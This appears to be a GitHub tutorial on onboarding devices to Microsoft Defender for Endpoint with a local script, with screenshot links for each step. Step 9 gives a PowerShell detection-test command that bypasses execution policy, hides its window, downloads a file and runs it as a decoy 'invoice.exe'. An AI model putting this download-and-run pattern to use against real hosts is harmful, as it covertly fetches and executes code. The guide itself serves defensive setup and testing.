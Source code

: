 # Onboard Microsoft Defender Advanced Threat Protection with Local Script

To deploy using a local script:

1. Go to [security.microsoft.com](https://security.microsoft.com).
2. Navigate to **Settings** and select **Endpoints**.
![Select Endpoint](https://github.com/StephenOwusuB/Implementing-Microsoft-Defender-for-Enterprise-Security/blob/main/images/DGPO%20images/MDE%20onboard%202.png)
3. Scroll down to **Device management** and select **Onboarding**.
4. Choose the onboarding options with the deployment method set to **Group Policy**. Ensure to download the package for Group Policy as the scripts vary based on the deployment method.
![Select Local script](https://github.com/StephenOwusuB/Implementing-Microsoft-Defender-for-Enterprise-Security/blob/main/images/LocalScript/MDE%20onboard%203.png)
5. Once the download is complete, run the executable file (`.exe`).
![Double Click on Exe](https://github.com/StephenOwusuB/Implementing-Microsoft-Defender-for-Enterprise-Security/blob/main/images/LocalScript/MDE%20onboard%2029.png)
7. A command prompt will pop up. Enter `Y` to continue the deployment.
![Enter Y](https://github.com/StephenOwusuB/Implementing-Microsoft-Defender-for-Enterprise-Security/blob/main/images/LocalScript/MDE%20onboard%2030.png)
8. The deployment may take 5 to 8 minutes to appear in the portal.
9. To verify Defender ATP, use the following PowerShell script:
    ```powershell
    powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden $ErrorActionPreference= 'silentlycontinue';(New-Object System.Net.WebClient).DownloadFile('http://127.0.0.1/1.exe', 'C:\\test-WDATP-test\\invoice.exe');Start-Process 'C:\\test-WDATP-test\\invoice.exe'
    ```
10. You will find an alert under Incidents & Alerts
 ![Alert](https://github.com/StephenOwusuB/Implementing-Microsoft-Defender-for-Enterprise-Security/blob/main/images/LocalScript/MDE%20onboard%2039.png)
11. You can find this script in your Defender portal: [Defender Onboarding](https://security.microsoft.com/securitysettings/endpoints/onboarding?tid=d8b703ef-81f7-478a-96a2-298aca6e1a76).

Feel free to adjust the details as needed!

